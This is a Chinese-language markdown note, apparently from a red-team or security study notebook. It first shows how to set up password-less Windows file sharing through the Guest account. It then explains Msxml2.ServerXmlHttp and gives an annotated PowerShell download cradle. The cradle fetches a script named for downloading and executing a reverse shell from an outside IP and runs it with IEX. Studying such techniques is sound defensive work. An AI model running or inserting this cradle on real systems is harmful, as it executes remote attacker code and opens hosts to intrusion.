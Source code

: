 > [windows高级共享设置密码保护的共享无法设置为无密码保护的共享_无法设置无密码保护的共享-CSDN博客](https://blog.csdn.net/qq_48874464/article/details/138489346)
>
> [Windows 8/10的密码保护共享，无需密码访问共享文件 - Microsoft Community](https://answers.microsoft.com/zh-hans/windows/forum/all/windows/df9a659a-942e-4dca-9921-34aeb70838eb)

首先需要把 Guest 用户的密码置空 `此电脑->管理 / 计算机管理` -> `计算机管理(本地)->系统工具->本地用户和组->用户->Guest`

![image-20240626182705194](http://cdn.ayusummer233.top/DailyNotes/202406261827398.png)

![image-20240626182719409](http://cdn.ayusummer233.top/DailyNotes/202406261827576.png)

![image-20240626182740623](http://cdn.ayusummer233.top/DailyNotes/202406261827855.png)

![image-20240626182832826](http://cdn.ayusummer233.top/DailyNotes/202406261828161.png)

---

`网络和共享中心->高级共享设置->所有网络->密码保护的共享->无密码保护的共享`

![image-20240626175031754](http://cdn.ayusummer233.top/DailyNotes/202406261750015.png)

然后设置共享目录

![image-20240626222248971](http://cdn.ayusummer233.top/DailyNotes/202406262222277.png)

```
\\Win10-2022KFFAG\Shared
\\192.168.1.216\Shared
```







---

#### Msxml2.ServerXmlHttp

Microsoft XML (MSXML) 是一个开放源代码的 XML 解析器和 HTTP 客户端，由 Microsoft 提供。它是 Windows 操作系统的一部分，并且可以在各种编程语言中使用，包括 C++、Java、VBScript、JavaScript 等。

---

`下载与执行powershell命令文本`

```powershell
# 新建一个 COM 对象, 它是 Msxml2.ServerXmlHttp 类的一个实例, 用于发送 HTTP 请求和接受响应
$comMsXml = New-Object -ComObject MsXml2.ServerXmlHttp; 
# 使用 COM 对象的 Open 方法打开一个 HTTP GET 请求; $False 表示同步请求(非异步)
$comMsXml.Open('GET', 'http://100.1.1.131:8000/download/download_and_exec_reverse_shell_exe.ps1', $False); 
# 使用 COM 对象的 Send 方法发送 HTTP 请求并等待响应, 响应会被保存在 COM 对象的 ResponseText 属性中
$comMsXml.Send(); 
Write-Host $comMsXml.ResponseText
# Invoke-Expression 执行响应(中的脚本)
IEX $comMsXml.ResponseText
```
